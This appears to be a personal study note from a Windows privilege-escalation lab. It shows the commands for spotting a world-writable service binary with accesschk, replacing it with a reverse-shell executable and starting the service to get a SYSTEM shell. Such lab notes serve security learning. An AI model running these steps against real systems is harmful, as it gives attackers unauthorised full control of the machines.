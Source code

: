 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Vulnerabilities
  - RegistryVulnerabilitiesAndTokens
---
```



1. Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc filepermsvc
```

2. Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

3. Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start filepermsvc
```